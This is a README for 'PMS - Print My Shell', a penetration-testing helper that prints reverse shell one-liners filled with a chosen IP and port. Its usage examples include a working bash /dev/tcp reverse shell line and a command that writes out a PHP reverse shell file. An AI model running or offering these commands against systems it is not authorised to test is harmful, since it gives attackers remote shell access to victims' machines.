 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.\
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Install
----------------
```sh
$ git clone https://github.com/etrock/PMS.git
$ cd PMS
```
You can add to your ~/.bashrc file
```
alias pms='python3 "<pms path>/pms.py"'
source ~/.bashrc
```
and now you can use like :
```sh
$ pms bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number\
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address\
You can specify your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```type```: **required**, reverse shell type , (eg. "bash")\
```-c --config```: *optional* , configuration file , ```<default> pms.conf```\
```-h --host```: *optional*, host IP address\
```-p --port```: *optional* port number

shell types : bash, perl, python, php (shell), ruby, nc, nc-2, java, php-rev (file)


Usage
----------------
Don't forget to edit your ```pms.conf``` file
```sh
$ python3 pms.py bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
Get php reverse shell file
```sh
$ python3 pms.py php-rev > shell.php
```
